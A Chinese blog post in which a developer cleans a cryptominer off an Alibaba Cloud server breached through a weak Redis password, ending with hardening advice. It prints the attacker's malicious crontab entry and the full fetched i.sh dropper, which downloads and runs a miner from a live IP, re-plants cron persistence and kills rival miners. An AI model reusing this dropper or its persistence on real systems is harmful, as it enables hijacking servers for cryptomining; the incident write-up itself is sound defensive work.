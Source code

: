>emmm，长话短说，阿里云服务器被挂矿机了。

###   背景

事情还得从两三天前说起。7-31阿里云给我发了一个短信。

![](https://upload-images.jianshu.io/upload_images/5786888-153b90c3e0cc93fd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


我还专门和朋友谈(chao)论(feng)Root被提权是什么鬼逻辑，然后就没理。。因为服务器是自己玩的用，开发阶段给前端暴露api用的，没什么重要的数据。然后：

![](https://upload-images.jianshu.io/upload_images/5786888-a9ea41fafe2364b6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这个短信又发生在8-2号，What，大男子主义上来了，觉得这`13`有点过分了，有点变本加厉的意思了，然后就说去看看。（当时第一想法就是去看看进程有啥异样）

###   看一看

![](https://upload-images.jianshu.io/upload_images/5786888-7af4a104cb0d09ad.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

wtf，简直不要`13 face`，cpu占用99.3%，那我用0.7%吗。

#####    去`.ssh`目录看看
```
[root@FantJ .ssh]#  ls
authorized_keys
```
这可是无密登录的钥匙啊！用于主机之间的无密通信。果断删。

#####    查查这个命令在哪
```
[root@FantJ ~]#  find / -name qW3xT*
/tmp/qW3xT.2
```
#####    捕捉异常


![记住这个画面](https://upload-images.jianshu.io/upload_images/5786888-7eb3ca587ee35146.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![发现可疑线程](https://upload-images.jianshu.io/upload_images/5786888-49d46c7ce5967892.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![终止矿机脚本](https://upload-images.jianshu.io/upload_images/5786888-0c8b64423b572e1f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![又出来了](https://upload-images.jianshu.io/upload_images/5786888-d9ef8567598f2b07.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我为什么会针对它：
1. PID号很大，证明是新线程
2. 每次我kill了矿机，它就会执行，然后就消失。（后面会证明这个言论）
3. 从cpu的稳定来看，没有执行新指令cpu一般均衡。

###   杀除相关进程
```
 1022  ps -aux|grep ddg
 1023  kill 11938
 1024  kill 27507
```

###   寻找`ddgs.3013`
```
[root@FantJ ~]#  find / -name ddgs.3013
/tmp/ddgs.3013
```

###   定时任务？
干了前面觉得还是没有弄干净，所以我想去看看定时任务列表。
```
[root@FantJ tmp]#  crontab -l

*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
```
emmm，这一刻真是激动和喜悦。
```
curl 的这几个 optional 介绍,我也是百度的
-f  - fail在HTTP错误（H）上静默失败（根本没有输出）
-s  -silent静音模式。 不要输出任何东西
      --socks4 HOST [：PORT]给定主机+端口上的SOCKS4代理
      --socks4a HOST [：PORT]给定主机+端口上的SOCKS4a代理
      --socks5 HOST [：PORT]给定主机+端口上的SOCKS5代理
      --socks5-hostname HOST [：PORT] SOCKS5代理，将主机名传递给代理
      --socks5-gssapi-service名称为gssapi的SOCKS5代理服务名称
      --socks5-gssapi-nec与NEC SOCKS5服务器的兼容性
-S   --show-error显示错误。 使用-s时，make curl会在出现错误时显示错误
-L   --location遵循重定向（H）
      --location-trusted like --location并将auth发送给其他主机（H）
```
```
[root@FantJ tmp]#  crontab -r 
[root@FantJ tmp]#  crontab -l
no crontab for root
```
那又得查查这个i.sh了，突然想起有个定时任务，然后我把定时任务的job运行了以下：
```
[root@FantJ tmp]#  curl -fsSL http://149.56.106.215:8000/i.sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root


mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root


ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
# ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
# ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```
注意这个命令不会下载和执行sh脚本。因为我把管道符去掉了。看到的仅仅是打印的信息。
大概说下这个脚本的意思：
1. 设置环境变量，写定时任务
2. 查看ddgs.3013进程，如果没有该进程，重新下载该文件，然后给它加执行权限，并执行。
3. 批量根据关键字杀进程。

我发现有个`grep minexmr.com`.打开一看，其他网站同理。

![](https://upload-images.jianshu.io/upload_images/5786888-25b28efb02cd35c0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/5786888-3aac197d756c3535.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/5786888-d602168274bd5221.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

###   反思
>问题解决了，过段时间再看看进程情况，应该是没有了，可以说杀的挺彻底了。那么这问题为什么会出现呢。

还得回到阿里云给我的提示：redis。因为自己玩，所以redis的密码我设置的很简单`root`，被扫到也是很不费劲的事，然后我把密码进行改正。（通过配置文件`requirepass`或者`redis-cli``config set requirepass xxxx`），更安全的话，把bindIp设置成自己用的，然后更改默认端口。我没有重要数据，所以稍微意思下就行了，下次再来我再折腾。

不过这个`13`有个很良心的操作，就是没有删我的redis的keys，很有职业操守。但是还是被金钱奴隶。
